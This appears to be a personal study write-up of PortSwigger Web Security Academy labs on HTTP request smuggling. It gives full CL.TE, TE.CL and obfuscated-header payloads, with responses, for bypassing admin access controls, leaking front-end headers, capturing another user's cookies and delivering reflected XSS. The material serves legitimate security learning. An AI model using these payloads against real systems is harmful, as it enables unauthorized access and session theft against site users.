




## What is HTTP request smuggling?

HTTP request smuggling is a technique for interfering with the way a web site processes sequences of HTTP requests that are received from one or more users. Request smuggling vulnerabilities are often critical in nature, allowing an attacker to bypass security controls, gain unauthorized access to sensitive data, and directly compromise other application users.

Request smuggling is primarily associated with HTTP/1 requests. However, websites that support HTTP/2 may be vulnerable, depending on their back-end architecture. 
### What happens in an HTTP request smuggling attack?

Today's web applications frequently employ chains of HTTP servers between users and the ultimate application logic. Users send requests to a front-end server (sometimes called a load balancer or reverse proxy) and this server forwards requests to one or more back-end servers. This type of architecture is increasingly common, and in some cases unavoidable, in modern cloud-based applications.

When the front-end server forwards HTTP requests to a back-end server, it typically sends several requests over the same back-end network connection, because this is much more efficient and performant. The protocol is very simple; HTTP requests are sent one after another, and the receiving server has to determine where one request ends and the next one begins: 
### How to perform an HTTP request smuggling attack

Classic request smuggling attacks involve placing both the Content-Length header and the Transfer-Encoding header into a single HTTP/1 request and manipulating these so that the front-end and back-end servers process the request differently. The exact way in which this is done depends on the behavior of the two servers:

-    CL.TE: the front-end server uses the Content-Length header and the back-end server uses the Transfer-Encoding header.
-    TE.CL: the front-end server uses the Transfer-Encoding header and the back-end server uses the Content-Length header.
-    TE.TE: the front-end and back-end servers both support the Transfer-Encoding header, but one of the servers can be induced not to process it by obfuscating the header in some way.

>  These techniques are only possible using HTTP/1 requests. Browsers and other clients, including Burp, use HTTP/2 by default to communicate with servers that explicitly advertise support for it during the TLS handshake.

## CL.TE vulnerabilities

Here, the front-end server uses the Content-Length header and the back-end server uses the Transfer-Encoding header. We can perform a simple HTTP request smuggling attack as follows:
```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 13
Transfer-Encoding: chunked

0

SMUGGLED
```
The front-end server processes the Content-Length header and determines that the request body is 13 bytes long, up to the end of SMUGGLED. This request is forwarded on to the back-end server.

The back-end server processes the Transfer-Encoding header, and so treats the message body as using chunked encoding. It processes the first chunk, which is stated to be zero length, and so is treated as terminating the request. The following bytes, SMUGGLED, are left unprocessed, and the back-end server will treat these as being the start of the next request in the sequence. 



### Lab: HTTP request smuggling, basic CL.TE vulnerability
This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding. The front-end server rejects requests that aren't using the GET or POST method.

To solve the lab, smuggle a request to the back-end server, so that the next request processed by the back-end server appears to use the method `GPOST`. 

```
POST / HTTP/1.1
Host: 0add0096043e85c881b43ed8003b00b0.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked
Content-Length: 6

3
abc
X
```
```
HTTP/1.1 500 Internal Server Error
Content-Type: text/html; charset=utf-8
Connection: close
Content-Length: 125

<html><head><title>Server Error: Proxy error</title></head><body><h1>Server Error: Communication timed out</h1></body></html>
```
-> **CL.TE**



Perform **CL.TE**:



Send the following request and sedn one more normal request to solve the lab:
```
POST / HTTP/1.1
Host: 0add0096043e85c881b43ed8003b00b0.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked
Content-Length: 6

0

G
```
## TE.CL vulnerabilities

Here, the front-end server uses the Transfer-Encoding header and the back-end server uses the Content-Length header. We can perform a simple HTTP request smuggling attack as follows:
```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 3
Transfer-Encoding: chunked

8
SMUGGLED
0
```

The front-end server processes the Transfer-Encoding header, and so treats the message body as using chunked encoding. It processes the first chunk, which is stated to be 8 bytes long, up to the start of the line following SMUGGLED. It processes the second chunk, which is stated to be zero length, and so is treated as terminating the request. This request is forwarded on to the back-end server.

The back-end server processes the Content-Length header and determines that the request body is 3 bytes long, up to the start of the line following 8. The following bytes, starting with SMUGGLED, are left unprocessed, and the back-end server will treat these as being the start of the next request in the sequence. 

> The attack request have to have \r\n \r\n
### Lab: HTTP request smuggling, basic TE.CL vulnerability

This lab involves a front-end and back-end server, and the back-end server doesn't support chunked encoding. The front-end server rejects requests that aren't using the GET or POST method.

To solve the lab, smuggle a request to the back-end server, so that the next request processed by the back-end server appears to use the method GPOST. 

```
POST / HTTP/1.1
Host: 0ac600d804e5355b83df3365000a00b2.web-security-academy.net
Cookie: session=04GioWmAAi4NoKEiml45ebuviVPPubLs
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked
Content-Length: 6

0

X
```
```
HTTP/1.1 500 Internal Server Error
Content-Type: text/html; charset=utf-8
Connection: close
Content-Length: 125

<html><head><title>Server Error: Proxy error</title></head><body><h1>Server Error: Communication timed out</h1></body></html>
```



The character X is now added to the next normal request

=> **TE.CL**

The goal of this lab is to make the server appears to use the method GPOST.

Attack request:
```
POST / HTTP/1.1
Host: 0a1b002e0471b898802c53f900e4001d.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked
Content-Length: 4

56
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 6

0        

```
- The front-end use **Transfer-Encoding** header, which process all the below request:
```
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
\n \r
```
- The back-end use **Content-Length**, which only process the first 4 bytes:
```
56 \r \n
```
So the remain part will be smugged
```
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 6

0 \n \r
\n \r
```
- Note that we need to add one more byte in **Content-Length** header 

## TE.TE behavior: obfuscating the TE header

Here, the front-end and back-end servers both support the Transfer-Encoding header, but one of the servers can be induced not to process it by obfuscating the header in some way.

There are potentially endless ways to obfuscate the Transfer-Encoding header. For example:
```
Transfer-Encoding: xchunked
```
```
Transfer-Encoding : chunked
```
```
Transfer-Encoding: chunked
Transfer-Encoding: x
```
```
Transfer-Encoding:  chunked
```
```
 Transfer-Encoding: chunked
```
```
X: X
Transfer-Encoding: chunked
```
```
Transfer-Encoding
: chunked
```
Each of these techniques involves a subtle departure from the HTTP specification. Real-world code that implements a protocol specification rarely adheres to it with absolute precision, and it is common for different implementations to tolerate different variations from the specification. To uncover a TE.TE vulnerability, it is necessary to find some variation of the Transfer-Encoding header such that only one of the front-end or back-end servers processes it, while the other server ignores it.

Depending on whether it is the front-end or the back-end server that can be induced not to process the obfuscated Transfer-Encoding header, the remainder of the attack will take the same form as for the CL.TE or TE.CL vulnerabilities already described. 

### Lab: HTTP request smuggling, obfuscating the TE header

This lab involves a front-end and back-end server, and the two servers handle duplicate HTTP request headers in different ways. The front-end server rejects requests that aren't using the GET or POST method.

To solve the lab, smuggle a request to the back-end server, so that the next request processed by the back-end server appears to use the method GPOST. 

We need a way to trigger time out error:
```
POST / HTTP/1.1
Host: 0a2f00b104a1a7da844da6d300390070.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked
Transfer-Encoding: x
Content-Length: 6

0

x
```
=> **TE.CL**

Request attack:
```
POST / HTTP/1.1
Host: 0a2f00b104a1a7da844da6d300390070.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked
Transfer-Encoding: x
Content-Length: 4

56
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 6

0

```
## Finding HTTP request smuggling vulnerabilities
### Lab: HTTP request smuggling, confirming a CL.TE vulnerability via differential responses

This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding.

To solve the lab, smuggle a request to the back-end server, so that a subsequent request for / (the web root) triggers a 404 Not Found response. 

This request trigger timeout error, confiming a CL.TE vul
```
POST / HTTP/1.1
Host: 0ae2005004caa85683ea69fa00920089.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked
Content-Length: 6

3
abc
X
```
Attack request:
```
POST / HTTP/1.1
Host: 0ae2005004caa85683ea69fa00920089.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked
Content-Length: 39

0


GET /hello HTTP/1.1
X-Ignore: X
```
The reason for this to work is, the back-end sever will recieve:
```
GET /hello HTTP/1.1
X-Ignore: XGET / HTTP/2
Host: 0ae2005004caa85683ea69fa00920089.web-security-academy.net
```
### Lab: HTTP request smuggling, confirming a TE.CL vulnerability via differential responses

This lab involves a front-end and back-end server, and the back-end server doesn't support chunked encoding.

To solve the lab, smuggle a request to the back-end server, so that a subsequent request for / (the web root) triggers a 404 Not Found response. 

This request return a timeout error, confiming this is a TE.CL vul
```
POST / HTTP/1.1
Host: 0a0700ea045b985a81394893000300cd.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked
Content-Length: 6

0

X
```
Attack request:
```
POST / HTTP/1.1
Host: 0a0700ea045b985a81394893000300cd.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked
Content-Length: 4

ac
POST /hello HTTP/1.1
Host: 0a0700ea045b985a81394893000300cd.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 25

nglong05=hello
0

```

- Content-Length: 4 (**ac\r\n**)
- ac: bytes from **POST to hello**, not include the last clrf
- Content-Length: 25 (more bytes than the content lenght of the smug)

## Exploiting HTTP request smuggling vulnerabilities
### Using HTTP request smuggling to bypass front-end security controls

 In some applications, the front-end web server is used to implement some security controls, deciding whether to allow individual requests to be processed. Allowed requests are forwarded to the back-end server, where they are deemed to have passed through the front-end controls.

For example, suppose an application uses the front-end server to implement access control restrictions, only forwarding requests if the user is authorized to access the requested URL. The back-end server then honors every request without further checking. In this situation, an HTTP request smuggling vulnerability can be used to bypass the access controls, by smuggling a request to a restricted URL.

Suppose the current user is permitted to access /home but not /admin. They can bypass this restriction using the following request smuggling attack:
```
POST /home HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 62
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: vulnerable-website.com
Foo: xGET /home HTTP/1.1
Host: vulnerable-website.com
```
The front-end server sees two requests here, both for /home, and so the requests are forwarded to the back-end server. However, the back-end server sees one request for /home and one request for /admin. It assumes (as always) that the requests have passed through the front-end controls, and so grants access to the restricted URL. 

### Lab: Exploiting HTTP request smuggling to bypass front-end security controls, CL.TE vulnerability

This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding. There's an admin panel at /admin, but the front-end server blocks access to it.

To solve the lab, smuggle a request to the back-end server that accesses the admin panel and deletes the user carlos.

To access admin page:
```
POST / HTTP/1.1
Host: 0aff006004f736a780ce3ac000570006.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked
Content-Length: 94

0


GET /admin HTTP/1.1
Host: localhost
Content-Length: 15
X-Ignore: X

nglong05=hello
```
- Content-length: auto update
- Content-length: one more bytes than the smug actual content-length
- Host: localhost: bypass user not from local
- X-Ignore: X, bypass the first line of the normal request
### Lab: Exploiting HTTP request smuggling to bypass front-end security controls, TE.CL vulnerability

This lab involves a front-end and back-end server, and the back-end server doesn't support chunked encoding. There's an admin panel at /admin, but the front-end server blocks access to it.

To solve the lab, smuggle a request to the back-end server that accesses the admin panel and deletes the user carlos. 

Attack payload:
```
POST / HTTP/1.1
Host: 0a6f00220328a9a580d4b35300870030.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked
Content-Length: 4

93
POST /admin/delete?username=carlos HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Host: localhost
Content-Length: 25

nglong05=hello
0

```
## Revealing front-end request rewriting

In many applications, the front-end server performs some rewriting of requests before they are forwarded to the back-end server, typically by adding some additional request headers. For example, the front-end server might:

-    terminate the TLS connection and add some headers describing the protocol and ciphers that were used;
-    add an **X-Forwarded-For** header containing the user's IP address;
-    determine the user's ID based on their session token and add a header identifying the user; or
-    add some sensitive information that is of interest for other attacks.

In some situations, if your smuggled requests are missing some headers that are normally added by the front-end server, then the back-end server might not process the requests in the normal way, resulting in smuggled requests failing to have the intended effects.

There is often a simple way to reveal exactly how the front-end server is rewriting requests. To do this, you need to perform the following steps:

-    Find a POST request that reflects the value of a request parameter into the application's response.
-    Shuffle the parameters so that the reflected parameter appears last in the message body.
-    Smuggle this request to the back-end server, followed directly by a normal request whose rewritten form you want to reveal.

Suppose an application has a login function that reflects the value of the email parameter:
```
POST /login HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 28

email=wiener@normal-user.net
```
This results in a response containing the following:
```
<input id="email" value="wiener@normal-user.net" type="text">
```
Here you can use the following request smuggling attack to reveal the rewriting that is performed by the front-end server:
```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 130
Transfer-Encoding: chunked

0

POST /login HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 100

email=POST /login HTTP/1.1
Host: vulnerable-website.com
...
```
The requests will be rewritten by the front-end server to include the additional headers, and then the back-end server will process the smuggled request and treat the rewritten second request as being the value of the email parameter. It will then reflect this value back in the response to the second request:
```
<input id="email" value="POST /login HTTP/1.1
Host: vulnerable-website.com
X-Forwarded-For: 1.3.3.7
X-Forwarded-Proto: https
X-TLS-Bits: 128
X-TLS-Cipher: ECDHE-RSA-AES128-GCM-SHA256
X-TLS-Version: TLSv1.2
x-nr-external-service: external
...
```

>Since the final request is being rewritten, you don't know how long it will end up. The value in the Content-Length header in the smuggled request will determine how long the back-end server believes the request is. If you set this value too short, you will receive only part of the rewritten request; if you set it too long, the back-end server will time out waiting for the request to complete. Of course, the solution is to guess an initial value that is a bit bigger than the submitted request, and then gradually increase the value to retrieve more information, until you have everything of interest.

Once you have revealed how the front-end server is rewriting requests, you can apply the necessary rewrites to your smuggled requests, to ensure they are processed in the intended way by the back-end server. 

### Lab: Exploiting HTTP request smuggling to reveal front-end request rewriting
This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding.

There's an admin panel at /admin, but it's only accessible to people with the IP address 127.0.0.1. The front-end server adds an HTTP header to incoming requests containing their IP address. It's similar to the X-Forwarded-For header but has a different name.

To solve the lab, smuggle a request to the back-end server that reveals the header that is added by the front-end server. Then smuggle a request to the back-end server that includes the added header, accesses the admin panel, and deletes the user carlos.


This request return a time error, confirm a **CL.TE** vul
```
POST / HTTP/1.1
Host: 0a27004904d6301e802c851800af00ab.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked
Content-Length: 6

3
abc
X
```
This request is to leak the added header
```
POST / HTTP/1.1
Host: 0a27004904d6301e802c851800af00ab.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked
Content-Length: 102

0

POST / HTTP/1.1
Content-Length: 300
Content-Type: application/x-www-form-urlencoded

search=a
```
```html
<section class=blog-header>
    <h1>0 search results for 'aPOST / HTTP/1.1
        X-GiSHJo-Ip: 103.238.68.82
        Host: 0a27004904d6301e802c851800af00ab.web-security-academy.net
        Content-Type: application/x-www-form-urlencoded
        Transfer-Encoding: chunked
        Content-Length: 102

        0

        POST / HTTP/1.1
        Content-Length: 300
        Content-Type: application/x-www-form-ur'</h1>
    <hr>
</section>
```
Attack request:
```
POST / HTTP/1.1
Host: 0a27004904d6301e802c851800af00ab.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked
Content-Length: 244

0


GET /admin/delete?username=carlos HTTP/1.1
Host: 0a27004904d6301e802c851800af00ab.web-security-academy.net
X-GiSHJo-Ip: 127.0.0.1
Content-Length: 16
Content-Type: application/x-www-form-urlencoded
Connection: close

nglong05=hello
```
### Lab: Exploiting HTTP request smuggling to capture other users' requests

This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding.

To solve the lab, smuggle a request to the back-end server that causes the next user's request to be stored in the application. Then retrieve the next user's request and use the victim user's cookies to access their account. 

This request return timeout error, confirm a CL.TE vul
```
POST / HTTP/1.1
Host: 0a5000fc0440a74a85693ce800060037.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked
Content-Length: 6

3
abc
X
```
Attack request:
```
POST / HTTP/1.1
Host: 0a3900f70423418a82e6067000950074.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked
Content-Length: 336

0

POST /post/comment HTTP/1.1
Host: 0a3900f70423418a82e6067000950074.web-security-academy.net
Cookie: session=ahHFuwZBj9nct9OjC4E85WCSleJx4Lj5
Content-Length: 860
Content-Type: application/x-www-form-urlencoded

csrf=RNxglTxbxzXedzI6d9bE9645tRPaGbrh&postId=8&name=name&email=admin%40a&website=http%3A%2F%2Fa.com&comment=comment
```
```
<p>commentGET / HTTP/1.1
Host: 0a3900f70423418a82e6067000950074.web-security-academy.net
sec-ch-ua: &quot;Google Chrome&quot;;v=&quot;125&quot;, &quot;Chromium&quot;;v=&quot;125&quot;, &quot;Not.A/Brand&quot;;v=&quot;24&quot;
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: &quot;Linux&quot;
upgrade-insecure-requests: 1
user-agent: Chrome/943984
accept: text/html,application/xhtml xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
sec-fetch-site: none
sec-fetch-mode: navigate
sec-fetch-user: ?1
sec-fetch-dest: document
accept-encoding: gzip, deflate, br, zstd
accept-language: en-US,en;q=0.9
priority: u=0, i
cookie: victim-fingerprint=FOQbOcyDMORLDzZvWkNraxzjgLU1hE43; secret=M2IKuP7LQZKSA56g75uDLunIAAsngFx7; session=bVSPIITd1ETWGKXesjqDVdqpx0kgyRec
Co</p>
```
### Using HTTP request smuggling to exploit reflected XSS

If an application is vulnerable to HTTP request smuggling and also contains reflected XSS, you can use a request smuggling attack to hit other users of the application. This approach is superior to normal exploitation of reflected XSS in two ways:

-    It requires no interaction with victim users. You don't need to feed them a URL and wait for them to visit it. You just smuggle a request containing the XSS payload and the next user's request that is processed by the back-end server will be hit.
-    It can be used to exploit XSS behavior in parts of the request that cannot be trivially controlled in a normal reflected XSS attack, such as HTTP request headers.

For example, suppose an application has a reflected XSS vulnerability in the User-Agent header. You can exploit this in a request smuggling attack as follows:
```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 63
Transfer-Encoding: chunked

0

GET / HTTP/1.1
User-Agent: <script>alert(1)</script>
Foo: X
```
The next user's request will be appended to the smuggled request, and they will receive the reflected XSS payload in the response. 
### Lab: Exploiting HTTP request smuggling to deliver reflected XSS

This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding.

The application is also vulnerable to reflected XSS via the User-Agent header.

To solve the lab, smuggle a request to the back-end server that causes the next user's request to receive a response containing an XSS exploit that executes alert(1). 

```html
<form action="/post/comment" method="POST" enctype="application/x-www-form-urlencoded">
    <input required type="hidden" name="csrf" value="oKi234nXB9JTG19sECkDeEeOKC1YryQM">
    <input required type="hidden" name="userAgent" value="Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36">
    <input required type="hidden" name="postId" value="5">
    <label>Comment:</label>
    <textarea required rows="12" cols="300" name="comment"></textarea>
            <label>Name:</label>
            <input required type="text" name="name">
            <label>Email:</label>
            <input required type="email" name="email">
            <label>Website:</label>
            <input pattern="(http:|https:).+" type="text" name="website">
    <button class="button" type="submit">Post Comment</button>
</form>
```

In this challenge, the userAgent input have XSS vul

The goal is to change the value is to, for example 
```
"><script>alert(1)</script>
```
This request trigger timeout error, confirm **CL.TE** vul

Attack request:
```
POST / HTTP/1.1
Host: 0a2d00d4042d5838bd0baa0a0099006c.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked
Content-Length: 228

0


GET /post?postId=5 HTTP/1.1
Host: 0a2d00d4042d5838bd0baa0a0099006c.web-security-academy.net
User-Agent: a"><script>alert(1)</script>
Content-Type: application/x-www-form-urlencoded
Content-Length: 16

nglong05=hello
```


https://portswigger.net/web-security/request-smuggling/exploiting#using-http-request-smuggling-to-bypass-front-end-security-controls